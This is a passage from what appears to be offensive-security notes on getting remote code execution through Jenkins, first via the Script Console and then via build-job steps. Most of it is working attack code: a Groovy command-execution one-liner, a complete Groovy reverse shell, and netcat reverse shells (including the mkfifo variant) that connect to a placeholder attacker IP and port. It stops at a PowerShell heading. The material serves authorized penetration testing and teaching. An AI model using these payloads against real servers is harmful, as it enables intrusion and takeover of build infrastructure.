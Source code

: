 ```
URL: <URL>/computer/(<master | NODE_NAME>)/script

Or through the interface menus: visit "Manage Jenkins" > "Manage Nodes" > Select the targeted Jenkins node -> "Script Console" (on the left panel).
```

```
# Unitary OS command execution.
def proc = "<COMMAND>".execute(); def os = new StringBuffer(); proc.waitForProcessOutput(os, System.err); println(os.toString());

# Reverse shell in Groovy.
# Source: https://gist.githubusercontent.com/frohoff/fed1ffaab9b9beeb1c76/raw/7cfa97c7dc65e2275abfb378101a505bfb754a95/revsh.groovy
# BINARY: /bin/sh | /usr/bin/bash | cmd.exe | powershell.exe | ...
String host="<IP | HOSTNAME>";
int port=<PORT>;
String cmd="<BINARY>";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

###### Through build jobs

Operating systems commands can be executed as `steps` in `Jenkins` build jobs.
Doing so requires the `Job\Read`, `Job\Configure` and `Job\Build` permissions.

Depending on the architecture, the commands will be executed:
  - on the `Jenkins` `master` in a standalone server configuration;
  - on the `Jenkins` `slaves` / `agents` by default in a distributed builds
    environment. Indeed, in environments including `slaves` / `agents`, the
    `Jenkins` `master` node will use its resources to handle `HTTP` requests
    and the scheduling / management of build jobs while the actual execution
    of the builds will be delegated to the `slaves` / `agents` nodes.

`Jenkins` supports the execution of shell and batch commands in build jobs. The
commands specified through the web interface will be stored locally in a
temporary `bat` or `sh` script file on the node handling the build. The file
will be executed using, respectively, the following operating system commands:
`cmd /c call <TMP_FILE>` and `sh -xe <TMP_FILE>`.

The process below can be followed to configure a `step` in a `Jenkins` job and
build the job for remote code execution through a reverse shell:

```
# Configuration of the step in a given build job.
-> Main dashboard
-> <JOB> (to access the <JOB> page: <URL>/job/<JOB>/)
-> Left panel, "Configure" (to access the <JOB> configuration page: <URL>/job/<JOB>/configure)
-> Build section, "Add build step"
-> "Execute Windows batch command" / "Execute shell"

# The following reverse shells can be used to achieve remote code execution.
# For more information, refer to the "[General] Shells" note.

# Shell ("Execute shell")
# If nc's "-e" option is available on the targeted system:
nc -e /bin/sh <IP> <PORT> &
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f

# Windows PowerShell ("Execute Windows batch command")
```